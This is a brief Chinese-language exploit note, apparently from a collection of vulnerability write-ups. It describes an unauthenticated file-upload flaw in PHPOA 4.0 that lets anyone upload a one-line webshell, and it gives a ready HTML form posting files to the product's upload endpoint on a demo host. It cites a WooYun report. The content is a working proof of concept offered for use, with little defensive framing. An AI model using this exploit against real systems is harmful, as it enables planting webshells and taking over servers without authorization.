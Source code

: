 ####PHPOA4.0通杀上传漏洞
---
WooYun：http://www.wooyun.org/bugs/wooyun-2015-0163072

在提交漏洞的时候少测试了是否要登录这一步，提交确认后却发现原来不用登录直接上传一句话即可，页面返回的json里有地址

复习周中，找个时间再写脚本

	<form action="http://demo.phpoa.cn/upload/index.php?userid=1" method="post" enctype="multipart/form-data">
	<input type="file" name="files[]">
	<input type="submit">
	</form>